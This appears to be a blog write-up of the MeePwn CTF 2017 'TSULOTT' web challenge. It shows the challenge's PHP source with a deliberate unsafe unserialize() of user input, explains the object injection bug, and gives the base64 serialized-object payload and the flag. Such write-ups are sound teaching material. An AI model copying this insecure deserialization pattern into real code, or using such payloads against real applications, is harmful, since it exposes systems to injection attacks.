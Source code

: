 ```yaml
---
title: "MeePwn CTF 2017: TSULOTT"
date: "2017-07-17"
author: Jorge
categories:
- code
- architecture
tags:
- code
- architecture
toc: true
summary: ""
---
```


**100 pts**

> Who Wants to Be a Millionaire? Join My LOTT and Win JACKPOTTTT!!! <br/> <br/> Remote: [128.199.190.23:8001](http://128.199.190.23:8001)

![](/img/ctf/2017/Screenshot_20170716_184808.png)

## Think simple
![](/img/ctf/2017/Screenshot_20170714_204246.png)
- Lets check the source code from the web.
- Here we can see a comment, `<!-- GET is_debug=1 -->`
    mmmm... why not [128.199.190.23:8001?is_debug=1](http://128.199.190.23:8001?is_debug=1).
- Awesome! now we can read the server code, it is written in PHP.

```php
<body> 
<style> 
input[type=text] { 
    width: 40%; 
    padding: 12px 20px; 
    margin: 8px 0; 
    box-sizing: border-box; 
    border: 2px solid red; 
    background-color: #ebfff8; 
    border-radius: 4px; 
} 

button[type=submit] { 
    width: 10%; 
    background-color: #F94848; 
    color: white; 
    padding: 14px 20px; 
    margin: 8px 0; 
    border: none; 
    border-radius: 4px; 
    cursor: pointer; 
} 

button[type=submit]:hover { 
    background-color: #45a049; 
} 

body { 
    background-image: url("money.jpg"); 
} 
</style> 

<?php 
class Object  
{  
  var $jackpot; 
  var $enter;  
} 
?> 


<?php 

include('secret.php'); 

if(isset($_GET['input']))   
{ 
  $obj = unserialize(base64_decode($_GET['input'])); 
  if($obj) 
  { 
    $obj->jackpot = rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99);  
    if($obj->enter === $obj->jackpot) 
    { 
      echo "<center><strong><font color='white'>CONGRATULATION! You Won JACKPOT PriZe !!! </font></strong></center>". "<br><center><strong><font color='white' size='20'>".$obj->jackpot."</font></strong></center>"; 
      echo "<br><center><strong><font color='green' size='25'>".$flag."</font></strong></center><br>"; 
      echo "<center><img src='http://www.relatably.com/m/img/cross-memes/5378589.jpg' /></center>"; 

    } 
    else 
    { 
      echo "<br><br><center><strong><font color='white'>Wrong! True Six Numbers Are: </font></strong></center>". "<br><center><strong><font color='white' size='25'>".$obj->jackpot."</font></strong></center><br>"; 
    } 
  } 
  else 
  { 
    echo "<center><strong><font color='white'>- Something wrong, do not hack us please! -</font></strong></center>"; 
  } 
} 
else 
{ 
  echo ""; 
} 
?> 
<center> 
<br><h2><font color='yellow' size=8>-- TSU</font><font color='red' size=8>LOTT --</font></h2> 
<p><p><font color='white'>Input your code to win jackpot!</font><p> 
<form> 
          <input type="text" name="input" /><p><p> 
          <button type="submit" name="btn-submit" value="go">send</button> 
</form> 
</center> 
<?php 
if (isset($_GET['gen_code']) && !empty($_GET['gen_code'])) 
{ 
  $temp = new Object; 
  $temp->enter=$_GET['gen_code']; 
  $code=base64_encode(serialize($temp));  
  echo '<center><font color=\'white\'>Here is your code, please use it to Lott: <strong>'.$code.'</strong></font></center>'; 
} 
?> 
<center> 
<font color='white'>-----------------------------------------------------------------------------------------------------------------------------</font> 
<h3><font color='white'>Take code</font></h3><p> 
<p><font color='white'>Pick your six numbers (Ex: 15 02 94 11 88 76)</font><p> 
<form> 
      <input type="text" name="gen_code" maxlength="17" /><p><p> 
      <button type="submit" name="btn-submit" value="go">send</button> 
</form> 
</center> 
<?php 
if(isset($_GET['is_debug']) && $_GET['is_debug']==='1') 
{ 
   show_source(__FILE__); 
} 
?> 
<!-- GET is_debug=1 --> 
</body> 
```

## Injection
The flag is rendered after this condition:

```php
if($obj->enter === $obj->jackpot)
```

Reading the PHP code we can notice the vulnerability. PHP Object Injection.
Get the input and try to unserialize it as an Object.

```php
$obj = unserialize(base64_decode($_GET['input']));
```

We need the enter value and the jackpot value of the object to be the same, but we will never manage to get it right. The object is serialized and then the jackpot attribute is setted as random.

```php
$obj = unserialize(base64_decode($_GET['input'])); 
if($obj) { 
    $obj->jackpot = rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99); 
    if($obj->enter === $obj->jackpot);
...
}
```

Our only chance is generate a completely random object and encoded with base64.
- [https://www.tools4noobs.com/online_php_functions/base64_encode/](https://www.tools4noobs.com/online_php_functions/base64_encode/)
- Generate a random object, in this case an object Test who have 2 attributes (jackpot and enter) both of them NULL

```json
INPUT: O:4:"Test":2:{s:7:"jackpot";N;s:5:"enter";N;}
```

```json
OUTPUT: "Tzo0OiJUZXN0IjoyOntzOjc6ImphY2twb3QiO047czo1OiJlbnRlciI7Tjt9"
```
    
## Win the lottery
Paste the output into the form and voilà:
### MeePwnCTF{__OMG!!!__Y0u_Are_Milli0naire_N0ww!!___}

![](/img/ctf/2017/Screenshot_20170715_000809.png)